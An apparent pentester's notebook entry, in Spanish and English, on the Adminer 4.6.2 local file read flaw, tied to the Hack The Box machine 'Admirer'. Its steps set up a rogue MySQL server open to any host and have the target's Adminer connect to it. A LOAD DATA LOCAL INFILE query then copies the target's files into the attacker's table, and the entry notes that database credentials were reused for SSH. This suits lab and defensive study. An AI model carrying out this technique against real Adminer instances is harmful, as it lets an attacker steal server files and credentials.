 ## DESCRIPTION

Adminer es una herramienta para administrar contenido en bases de datos. Es compatible de forma nativa con MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, Elasticsearch y MongoDB. Adminer se distribuye bajo licencia Apache en forma de un único archivo PHP.

La versión 4.6.2 tiene una vulnerabilidad que permite leer ficheros locales de la máquina que esta correindo Admirer. 

#### Mas información
* https://0xdf.gitlab.io/2020/09/26/htb-admirer.html
* Video S4vitar
* Mejor Writeup: https://infosecwriteups.com/htb-admirer-writeup-171abd8d399c

## EXPLOITATION

### OPTION 1: Manual

1. Run the following commands on the attacker machine:
```
sudo service mysql start
sudo mysql
```


2. After logging in, create the user and grant all the privileges for the new database we will create.

```
CREATE DATABASE admirerExposed;
SHOW DATABASES;
USE admirerExposed;
CREATE TABLE tableTEST(columnTest varchar(5000));
```

3. Creamos el usuario en nuestra base de datos:

```
GRANT ALL PRIVILEGES ON admirerExposed.* TO ‘testName’@’%’ IDENTIFIED BY ‘testPassword’;
```

4. Comprobamos qeu se ha creado elusuario

```
SELECT user FROM mysql.user;
```

5. **!!NOTA IMPORTANTE!!** 

Now within the **/etc/mysql/mariadb.conf.d/50-server.cnf** file, change the **bind-address** to **0.0.0.0** to allow connection from remote host.

![[Pasted image 20230301160630.png]]

6. Reiniciamos el servidor

```
exit
sudo service mysql restart
```

Now, Run a test to see if login via both ‘**localhost**’ and ‘**remote server**’ works since we used the wildcard `%` which allows to connect from any remote host.

7. Ahora desde el portal web de Admirer podemos conectarnos a nuestra máquina:
![[Pasted image 20230301160813.png]]

8. Accedemos a SQL command:

![[Pasted image 20230301160855.png]]

9. Procedemos a leer los ficheros que queramos ejecutando la siguiente consulta:

```
LOAD DATA LOCAL INFILE 'var/lib/mysql/mysql/local.xml' 
INTO TABLE admirerExposed.test
FIELDS TERMINATED BY "\n"
```

![[Pasted image 20230301161001.png]]

Para visualizarlo ejecutamos:

```
SELECT * from admirerExposed.test;
```

**!!NOTA IMPORTANTE!!** En index.php se encontraba las credenciales de la bbdd del usuario que se reutilizaban en el ssh.

## MACHINES

* Hack The Box: Admirer

